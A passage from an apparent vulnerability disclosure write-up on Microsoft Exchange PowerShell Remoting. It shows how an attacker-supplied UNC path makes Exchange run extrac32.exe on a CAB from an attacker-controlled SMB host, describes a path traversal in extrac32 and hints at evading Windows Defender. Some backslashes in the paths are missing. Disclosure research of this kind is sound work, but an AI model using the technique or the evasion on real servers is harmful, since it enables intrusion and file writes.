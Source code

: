 As you can see, we can deliver an object of any type to the constructor. The code flow can go in multiple directions from here.

We are interested in a case where a string is provided to the constructor. When a string is provided, the code expects it to be a valid path to a file with a `.cab` extension. The code does not validate the path in any meaningful way except for checking the extension. The code leads to the `ParseCab` method, where the argument contains the attacker-supplied path:

At `[1]`, a `FileInfo` object is created from the attacker’s path.

At `[2]` and `[3]`, a temporary output directory is created.

At `[4]`, the `OpenCabinetFile` method is called.

At `[5]`, the entire temporary directory is deleted.

At this stage, we can confirm two things. We can deliver a UNC path, such as `\192.168.1.100pocpoc.cab`. The Exchange PowerShell Remoting requires Kerberos authentication, so the attacker most likely resides in the internal network anyway. It is rather rare to see the SMB traffic filtered internally. Thus, in most cases it will not present a challenge for the attacker to host content that the Exchange server can access over SMB.

Next, our remote path is processed by `OpenCabinetFile`. Let’s analyze this method.

It seems that our cabinet file is going to be extracted with the following command:

`extrac32.exe /Y /E /L “C:WindowsTemprandom-uuid” “\192.168.1.100pocpoc.cab”`

Basically, the content of our remote CAB file will be extracted to some temporary directory. Then, the entire directory will be deleted. There does not seem to be any available unsafe operations here. As we will see, though, it turns out that `extrac32` has its own issues.

**ZDI-CAN-21499 – Unpatched Path Traversal in extrac32**

In general, we can use the `ApprovedApplicationCollection` internal Exchange class to extract our CAB file with the Windows utility `extrac32.exe`. This could lead to a file parsing bug, where the parsing part is performed by some unmanaged code. We could always try to look for memory corruptions in `extrac32.exe`. Before even thinking about it, I decided to go for a full-dumb option, which can be summarized with the following meme.

![](https://images.squarespace-cdn.com/content/v1/5894c269e4fcb5e65a1ed623/4a8f79be-74ed-4eb6-b555-5fa7a607e602/meme.png?format=1000w)

I simply created a CAB containing a single file, where the filename contains the path traversal sequence `..`, and tested it.

![](https://images.squarespace-cdn.com/content/v1/5894c269e4fcb5e65a1ed623/6f1342f8-04bb-4b1e-a935-90cfeacbd094/Picture2.png?format=1000w)

It turned out that the `extrac32` extraction mechanism is vulnerable to a trivial path traversal. There is still one problem, though. The file presented in the screenshot gets detected as malicious by Windows Defender:

![](https://images.squarespace-cdn.com/content/v1/5894c269e4fcb5e65a1ed623/f094805d-20d1-4150-895e-d2757961fbb6/Picture3.png?format=1000w)

Luckily for the attackers, antivirus signatures are not always very smart, and this one can be easily bypassed. For example:

`..poc.txt` - the CAB file gets tagged as malicious by Windows Defender.
